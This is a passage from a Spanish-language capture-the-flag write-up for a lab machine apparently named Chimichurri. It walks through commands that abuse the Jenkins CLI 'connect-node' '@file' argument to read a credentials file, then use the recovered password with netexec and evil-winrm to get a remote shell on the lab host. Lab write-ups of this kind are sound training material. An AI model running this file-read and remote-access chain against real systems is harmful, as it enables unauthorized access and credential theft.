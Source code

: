 Si recordamos el contenido del fichero `credentiales.txt`, nos decía que las credenciales del usuario **hacker** se encuentran en `C:\Users\hacker\Desktop\perico.txt`. Teniendo esto en cuenta, leeremos el contenido de dicho fichero usando el siguiente comando.

```bash
java -jar jenkins-cli.jar -s http://192.168.200.4:6969/ connect-node "@/users/hacker/desktop/perico.txt"
```

Tal y como se aprecia, veremos unas credenciales **hacker:Perico69**.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307230910.png>)

Gracias al siguiente comando, comprobaremos si las credenciales obtenidas nos sirven para conectarnos de manera remota a la máquina víctima, o lo que es lo mismo si el usuario **hacker** forma parte del grupo **Remote Management Users**.

```bash
netexec winrm 192.168.200.4 -u='hacker' -p='Perico69'
```

Veremos que efectivamente podemos conectarnos a la máquina víctima con las credenciales **hacker:Perico69**.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307231023.png>)

Para conectarnos a la máquina víctima, usaremos **evil-winrm** de la siguiente forma.

```bash
evil-winrm -i 192.168.200.4 -u 'hacker' -p 'Perico69'
```

Tal y como vemos a continuación, hemos conseguido ganar acceso a la máquina víctima como el usuario **hacker**.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307231329.png>)
